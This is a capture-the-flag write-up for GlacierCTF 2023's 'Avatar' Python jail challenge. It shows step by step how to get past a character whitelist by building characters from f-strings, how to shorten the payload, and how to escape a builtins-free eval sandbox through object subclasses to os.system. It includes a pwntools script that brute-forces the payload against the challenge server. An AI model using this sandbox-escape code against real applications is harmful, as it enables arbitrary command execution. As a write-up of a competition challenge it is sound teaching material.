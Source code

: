 ```yaml
---
title: "[GlacierCTF 2023 - Misc] Avatar"
description: "Writeup by jsthope"
published: 2023-11-27
tags: [GlacierCTF 2023, Misc]
type: post
category: Misc
image: ./Glacier_CTF_Logo.png
showTableOfContents: true
---
```


# Introduction

This challenge was during the **GlacierCTF 2023**.

The goal of this challenge is to escape from this prison to retrieve the flag.


```py title="chall.py"
print("You get one chance to awaken from the ice prison.")
code = input("input: ").strip()


whitelist = """gctf{"*+*(=>:/)*+*"}""" # not the flag
if any([x not in whitelist for x in code]) or len(code) > 40000:
    
    print("Denied!")
    exit(0)

eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

# First condition

We will first focus on the first condition:

```py
whitelist = """gctf{"*+*(=>:/)*+*"}"""
```

## Numbers

The aim here is to find a trick to be able to write all numbers and later the characters.

We quickly find a way to obtain numbers with:

```py
digits = {
    0: '+("g"=="c")',
    1: '+("g"=="g")'}

for i in range(2, 150):
    digits[i] = digits[i-1] + digits[1] # True + True = 2...
```

This code will later be optimized to:

```py
digits = {
    0: '+("">"")',
    1: '+(""=="")',
    }
```

Thus, thanks to f-strings (since `f` is allowed) we can obtain all numbers.

## Letters

We then find a way to obtain letters using an f-string feature:

```py
f"""{digits[97]:c}""" # returns the corresponding unicode here
```

We then write these two functions to be able to build our obfuscated payload:

```py
def letter(letter_wanted):
    return '{'+digits[ord(letter_wanted)]+':c}'


def get_string(string_wanted):
    ret_str = ''
    for let in string_wanted:
        ret_str += letter(let)
    return 'f"""' + ret_str + '"""'
```

# Second condition

We can then build our payload.
However, we quickly run into a problem: the second condition.

Here is the payload we want to use:

```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```

The problem is that this obfuscated payload has **67887** characters...
And the second condition therefore does not accept it...

```py
len(code) > 40000
```

## Optimization

Our method for writing numbers writes `6` as `1+1+1+1+1+1`.
However, it is much more compact to write it as `(1+1+1)*(1+1)` (especially for large numbers).

Thus, we implement a check if the number is a multiple of `2` or `3` in order to save length (it’s not the most optimal, but it gets us well below 40,000).

```py
for i in range(2, 150):
    if i % 2 == 0:
        digits[i] = digits[i/2] + '*((""=="")+(""==""))'
    elif i % 3 == 0:
        digits[i] = digits[i/3] + '*((""=="")+(""=="")+(""==""))'
    else:
        digits[i] = "(" + digits[i-1] + digits[1] + ")"
```

These optimizations reduce our payload to **13227** characters!

We then faced a big problem: no response from the server...

# Payload

It’s time to look at the payload now.
The payload was chosen based on the following restriction:

```py
eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

We see here that there are neither `__builtins__` nor `globals`.
So the code evaluated with `eval` will not have access to Python’s built-in functions (`print`, `__import__`, etc ...) ([cf python.org](https://docs.python.org/3/library/functions.html))

This is not a problem in itself because ways to bypass these restrictions exist ([cf hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins))

The payload is as follows:

```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```

It tries to invoke `<class '_frozen_importlib.BuiltinImporter'>` using `().__class__.__base__.__subclasses__()[107]` in order to use the builtins again.

The problem is that in most cases `<class '_frozen_importlib.BuiltinImporter'>` is at index **107**.
However, the index may depend on the Python version.

All that remained was to brute-force the index and hope for a positive response.

```py
for i in range(90,120):
    string_wanted = f"""().__class__.__base__.__subclasses__()[{i}]().load_module('os').system('cat flag.txt')"""
    obf = get_string(string_wanted)

    print(len(obf))
    #context.log_level = 'debug'

    p = remote("chall.glacierctf.com",13384)
    p.recv()
    p.sendline(obf)
    try: 
        print(p.recv())
        break
    except EOFError:
        pass
    p.close()

p.success(f"Correct Payload was: {string_wanted}")
```

![Avatar flag image](./flag.png)
